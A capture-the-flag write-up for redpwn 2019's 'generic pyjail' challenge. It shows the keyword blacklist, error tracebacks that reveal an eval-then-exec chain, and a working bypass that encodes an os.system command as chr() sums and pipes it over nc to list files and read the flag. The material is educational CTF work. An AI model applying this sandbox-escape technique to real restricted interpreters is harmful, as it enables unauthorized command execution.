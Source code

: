 ## generic pyjail
> When has a blacklist of insecure keywords EVER failed?

> nc chall2.2019.redpwn.net 6006

We are given a file `blacklist.txt`
```
$ cat blacklist.txt
import
ast
eval
=
pickle
os
subprocess
i love blacklisting words!
input
sys
windows users
print
execfile
hungrybox
builtins
open
most of these are in here just to confuse you
_
dict
[
>
<
:
;
]
exec
hah almost forgot that one
for
@
dir
yah have fun
file
```
Pyjails are always fun to break into :D

Let's first test with some random inputs.
```
$ nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> globals()
Traceback (most recent call last):
  File "jail1.py", line 52, in <module>
    exec(data)
  File "<string>", line 1
    {'no': 'file', '__builtins__': <module '__builtin__' (built-in)>, '__file__': 'jail1.py', '__package__': None, 'banned': ['import', 'ast', 'eval', '=', 'pickle', 'os', 'subprocess', 'i love blacklisting words!', 'input', 'sys', 'windows users', 'print', 'execfile', 'hungrybox', 'builtins', 'open', 'most of these are in here just to confuse you', '_', 'dict', '[', '>', '<', ':', ';', ']', 'exec', 'hah almost forgot that one', 'for', '@dir', 'yah have fun', 'file'], '__name__': '__main__', 'data': {...}, '__doc__': None, 'print_function': _Feature((2, 6, 0, 'alpha', 2), (3, 0, 0, 'alpha', 0), 65536)}
                                   ^
SyntaxError: invalid syntax

$ nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> 2
>>> a
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```
Amazing, so from error tracebacks, we can see, that first our input goes into `eval()` and then goes into `exec()`. As blacklist contains string filtering only, we can bypass this easily due to `eval()`

So, let's say our payload is `__import__('os').system('ls .')`
What we can do is make this payload as a sum of characters, that can be evaled and passed to exec, thus bypassing the blacklist.

Example, __ => chr(95)*2 => eval('chr(95)*2') = '__'

```
$ python -c "print(\"+\".join([\"chr({})\".format(ord(x)) for x in \"__import__('os').system('ls .')\"]))" |  nc chall2.2019.redpwn.net 6006  
wow! there's a file called flag.txt right here!
>>> bin
boot
dev
etc
flag.txt
home
jail1.py
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ python -c "print(\"+\".join([\"chr({})\".format(ord(x)) for x in \"__import__('os').system('cat flag.txt')\"]))" |  nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> flag{bl4ckl1sts_w0rk_gre3344T!}
```
